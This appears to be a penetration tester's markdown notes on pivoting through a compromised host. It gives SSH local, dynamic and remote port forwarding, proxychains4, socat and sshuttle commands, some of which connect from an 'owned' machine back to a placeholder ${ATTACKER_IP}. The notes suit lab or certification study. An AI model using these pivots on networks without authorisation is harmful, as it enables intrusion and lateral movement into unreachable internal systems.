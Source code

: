 # SSH Tunneling

With all of these, it can be good just to verify that the machine is listening on a given port after the tunnel is created.
This can be done with `ss -ntplu`

## Local Port Forwarding

Local SSH tunnel from `$OWNED_IP1` to some `EXTERNAL_IP` (run this from `${OWNED_IP0}`).
```
ssh -N -L 0.0.0.0:${OWNED_PORT0}:${EXTERNAL_IP}:${EXTERNAL_PORT} ${USER}@${OWNED_IP1}
```
This will allow traffic to go `${ATTACKER_IP} <--> ${OWNED_IP}:${OWNED_PORT} <--> ${EXTERNAL_IP}:${EXTERNAL_PORT}` 

## Dynamic Port Forwarding

If we want to be able to port-scan or otherwise interact with multiple ports of targets not directly reachable from our network,
we can use `proxychains4` with OpenSSH's dynamic port forward option.

With the following, OpenSSH opens a SOCKS proxy server:

```
ssh -N -D 0.0.0.0:${OWNED_PORT0} ${USER}@${OWNED_IP1}
```

To make sure packages are sent in a compatible manner, we use `proxychains4`.
the default config is found in `/etc/proxychains4.conf`, but we can also specify a config file with `-f $pathToConfig`.

a config could be to add to a `proxychains4.conf`:

```
socks5 	${OWNED_IP0} ${OWNED_PORT0} 
```

Now, we can do eg. a call with smbclient like so:

```
proxychains4 -f proxychains4.conf smbclient ...
```
The trick is to use whatever tool you are calling with the same parameters you would otherwise with regards to IPs and ports, and just let proxychains handle the proxying.

## Remote Port Forwarding

(pre-req): This requires that we've setup an SSH server on our kali machine with:
```
sudo systemctl start ssh
```

If the firewall setup doesn't allow us to SSH from `${OWNED_IP}`, which we have compromised, it can make sense to remote port forward back to our `${ATTACKER_IP}` with (run from `${OWNED_IP0}`):
```
ssh -N -R 127.0.0.1:${OWNED_PORT0}:${EXTERNAL_IP}:${EXTERNAL_PORT} ${ATTACKER_USER}@${ATTACKER_IP}
```
Now, we can interact with `${EXTERNAL_IP}:${EXTERNAL_PORT}` via `127.0.0.1:${OWNED_PORT0}`.


## Remote Dynamic Port Forwarding
(pre-req): This requires that we've setup an SSH server on our kali machine with:
```
sudo systemctl start ssh
```

Also, note that the OpenSSH client needs to be version 7.6 (from 2017) or above for this to work.

From `${OWNED_IP}`, we can also do remote dynamic port forwarding with:

```
ssh -N -R ${PROXYCHAINS_PORT} ${ATTACKER_USER}@${ATTACKER_IP}
```
For this to work with `proxychains4`, we have to add the following to our config:

```
socks4 127.0.0.1 ${PROXYCHAINS_PORT}
```

Now, we can again interact with targets reachable from `${OWNED_IP}` from `${ATTACKER_IP}` by prefixing with `proxychains4` and then setting whatever IP/Port we want to hit. 


## Utility tools

### sshuttle

sshuttle sets up a VPN-like connection between your machine and machines that are not directly reachable.

Get the subnets you want to tunnel through, and do:

socat port forward to the ssh server in `OWNED_IP1` and `OWNED_PORT1`:

```
socat -ddd TCP-LISTEN:${LISTENING_PORT0},fork TCP:${OWNED_IP1}:${OWNED_PORT1`}
```

Now, you get the subnets you want to tunnel through (these will be the subnets in `ip route` on `{OWNED_IP1}`) and do:

```
sshuttle -r ${USER}@${OWNED_IP0}:${OWNED_PORT0} ${SUBNET_IP1_1} ${SUBNET_IP1_2}
```
Once we authorize with local sudo and the pw of `$USER`,  we can now "directly" interact with hosts in `$SUBNET_IP1_2`, which were unreachable before.


### ligolo-ng

Consider looking into this tool.




### Ligolo-ng


